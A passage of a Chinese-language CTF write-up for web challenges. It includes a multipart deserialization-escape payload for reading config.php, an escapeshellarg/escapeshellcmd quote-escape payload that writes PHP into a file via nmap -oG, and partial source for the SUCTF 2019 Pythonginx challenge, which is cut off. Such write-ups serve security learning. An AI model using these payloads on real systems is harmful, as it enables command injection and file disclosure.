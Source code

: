最终 payload：

```
------WebKitFormBoundary8V1KsQLRGLqfB6An
Content-Disposition: form-data; name="phone"

12345678901
------WebKitFormBoundary8V1KsQLRGLqfB6An
Content-Disposition: form-data; name="email"

admin@admin.com
------WebKitFormBoundary8V1KsQLRGLqfB6An
Content-Disposition: form-data; name="nickname[]"

wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php
------WebKitFormBoundary8V1KsQLRGLqfB6An
Content-Disposition: form-data; name="photo"; filename="1.png"
Content-Type: image/png

config.php
------WebKitFormBoundary8V1KsQLRGLqfB6An--
```

## \[BUUCTF 2018\] Online Tool

[参考文章](https://paper.seebug.org/164/)。

简单来说，`escapeshellarg` 会对传入参数中的单引号进行转义，然后将单引号两边的内容用 `''` 包起来；而 `escapeshellcmd` 会对转义符 `\` 以及不成对的单引号进行转义。那么先 `escapeshellarg` 再 `escapeshellcmd` 就会造成单引号逃逸。

payload：

```
?host='<?php echo phpinfo();?> -oG 1.php '
```

经过 `escapeshellarg`：

```
?host=''\' '<?php echo phpinfo();?> -oG 1.php'\'''
```

经过 `escapeshellcmd`：

```
?host=''\\' '\<\?php echo phpinfo\(\)\;\?\> -oG 1.php'\\'''
```

然后访问沙箱即可。

## \[SUCTF 2019\] Pythonginx

```py
@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222" + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
```